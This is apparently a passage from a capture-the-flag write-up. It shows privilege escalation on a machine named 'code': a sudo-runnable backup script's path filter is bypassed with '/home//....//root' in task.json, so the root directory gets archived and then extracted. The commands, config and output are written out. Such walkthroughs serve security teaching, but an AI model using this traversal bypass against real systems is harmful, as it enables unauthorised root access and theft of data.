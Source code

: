 Inspecting the `task.json` file, a backup configuration is found.

```bash
martin@code:~/backups$ cat task.json
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/app"
        ],

        "exclude": [
                ".*"
        ]
}
```

The configuration file specifies the destination of the backup and the directories to be archived. Since the user can run the script as `root`, we may be able to modify the configuration and change the targeted directories for backup, to the one under `/root`. 

Reading the `backy.sh` script to understand what it does, we notice, the directory paths being filtered, excluding once characters like `/` and `..`. Since the script excludes these characters and allows only backups for directories under `/var` and `/home`, we can modify the root path to `/home//....//root`, using double the characters `//` and `....`.

Using the following configuration, the `root` directory will be archived by `backy.sh`

```json
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home//....//root"
        ]
}
```

After modifying `task.json` and executing `sudo /usr/bin/backy.sh task.json` we archive the `root` directory.

```bash
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json
2025/08/03 13:04:54 🍀 backy 1.2
2025/08/03 13:04:54 📋 Working with task.json ...
2025/08/03 13:04:54 💤 Nothing to sync
2025/08/03 13:04:54 📤 Archiving: [/home//../root]
2025/08/03 13:04:54 📥 To: /home/martin/backups ...
2025/08/03 13:04:54 📦
```

The backup archive is in `.bz2`, and therefore it need to be extracted as follows.

```bash
bzip2 -d code_home__.._root_2025_August.tar.bz2
tar -xvf code_home__.._root_2025_August.tar
```
